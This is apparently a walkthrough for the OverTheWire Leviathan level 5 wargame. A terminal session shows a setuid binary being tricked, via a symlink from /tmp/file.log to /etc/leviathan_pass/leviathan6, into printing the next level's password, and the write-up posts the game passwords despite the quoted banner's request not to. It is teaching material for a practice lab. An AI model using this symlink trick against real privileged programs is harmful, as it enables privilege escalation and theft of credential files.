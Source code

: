 # Leviathan Level 5 → Level 6
There is no information for this level, intentionally.

## Solution
```                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ ssh -p 2223 leviathan5@leviathan.labs.overthewire.org  
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames
```
leviathan5@leviathan.labs.overthewire.org's password: Tith4cokei
```
Linux leviathan 4.18.12 x86_64 GNU/Linux
 ```              
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
               
 ```             
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!

  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!
```
leviathan5@leviathan:~$ ls -al                                       #list the contents of homedirectory of leviathan5
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5     #there is a setuid file 
-rw-r--r--  1 root       root        675 May 15  2017 .profile

leviathan5@leviathan:~$ ./leviathan5                                 #execute the setuid file leviathan5
Cannot find /tmp/file.log

leviathan5@leviathan:~$ ltrace ./leviathan5                          #run ltrace on leviathan5
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                            = 0   #there is an fopen command on /tmp/file.log file
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                                      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++

leviathan5@leviathan:~$ cat /tmp/file.log                                   #try opening /tmp/file.log
cat: /tmp/file.log: No such file or directory                               #since there is no such file, link it to the password file of leviathan6

leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log  #create a symbolic link for the /tmp/file.log with the password file

leviathan5@leviathan:~$ ./leviathan5                                        #execute the setuid file leviathan5
UgaoFee4li                                                                  #password for leviathan6

leviathan5@leviathan:~$ exit                                                #logout of leviathan.labs.overthewire.org
logout
Connection to leviathan.labs.overthewire.org closed.
```
#### Command-line help text
```
ls      -> list directory contents
-a      -> do not ignore entries starting with .
-l      -> use a long listing format

ln      -> make links between files
-s      -> make symbolic links instead of hard links

cat     -> concatenate files and print on the standard output
ltrace  -> A library call tracer
```
